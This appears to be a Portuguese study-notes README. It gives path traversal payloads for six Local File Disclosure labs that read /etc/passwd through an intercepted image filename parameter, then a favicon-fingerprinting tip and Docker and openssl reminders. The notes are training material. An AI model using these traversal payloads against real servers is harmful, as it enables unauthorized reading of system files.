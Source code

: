 
    LFD: Local File Disclosure

Quando o server permite o usuário listar os arquivos do host.

    LAB01: 

Usando o burpsuite e ao interceptar a imagem pode ser incluso filename=../../../etc/passwd
  

    LAB02:

Usando o burpsuite e ao interceptar a imagem pode ser incluso filename=/etc/passwd

    LAB03:

Usando o burpsuite e ao interceptar a imagem pode ser incluso filename=....//....//....//etc/passwd

    LAB04:

Usando o burpsuite e ao interceptar a imagem pode ser incluso filename=..%252f..%252f..%252fetc/passwd

    LAB05

Usando o burpsuite e ao interceptar a imagem pode ser incluso filename=/var/www/images/../../../etc/passwd

    LAB06

Usando o burpsuite e ao interceptar a imagem pode ser incluso filename=../../../etc/passwd%00.png


    TryHackMe: https://tryhackme.com/room/contentdiscovery


Este lab sbre descobrimento de diretórios manual ou por força bruta ensina o básico por trás de como descobrir diretórios em um alvo. Um ponto interessante é observar o framework em que foi criado o favicon. Aqui vai como descobri-lo.

        curl https://site-example.com/images/favicon.ico | md5sum
            A saída procurar no site: https://wiki.owasp.org/index.php/OWASP_favicon_database 
    
    
 ## COMANDOS DOCKER
    
 Alguns comandos do Docker para relembrar (em construção)


Matar todos os Containers: docker kill $(docker ps -q)

docker-compose build: Construir um container

No diretório startar o docker: docker-compose up -d

Gerar uma BUILD: docker-compose build --no-cache

Docker rodando: docker ps

Trocar de branch: git checkout branch-nome


Certificado SSL:

Dentro da aplicação: openssl req -x509 -nodes -newkey rsa:2048 -keyout cert.key -out cert.crt -days 365
